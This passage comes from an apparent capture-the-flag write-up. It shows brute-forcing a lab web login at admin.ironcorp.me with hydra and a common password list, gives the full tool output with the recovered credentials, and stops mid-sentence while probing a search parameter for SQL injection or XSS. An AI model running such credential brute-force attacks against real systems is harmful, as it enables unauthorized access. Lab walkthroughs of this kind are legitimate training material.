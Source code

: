 
Login to be able to access the web page, we don't know the credentials, we could assume that maybe this login isn't properly secured and it got some credentials that could be brute forced, let's try to brute force with `admin` as username, let's proceed with exploitation.


# EXPLOITATION
---

We can use hydra with `xato-net-10-million-passwords`, let's do it::

```bash
hydra -l admin -P /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt -s 11025 admin.ironcorp.me http-get -t 40

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-17 23:36:56
[WARNING] You must supply the web page as an additional option or via -m, default path set to /
[DATA] max 40 tasks per 1 server, overall 40 tasks, 10000 login tries (l:1/p:10000), ~250 tries per task
[DATA] attacking http-get://admin.ironcorp.me:11025/
[11025][http-get] host: admin.ironcorp.me   login: admin   password: password123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-07-17 23:37:34
```

We were right, this were pretty simple credentials, it's always worth to check weak credentials in order to find any security issue, we can login now:

![Pasted image 20250718171009.png](../../IMAGES/Pasted%20image%2020250718171009.png)

Once we login, we can see a search bar, if we try a test search, we can see the format of the url:

```
http://admin.ironcorp.me:11025/?r=test#
```

Trying SQLI or XSS, throw us this:
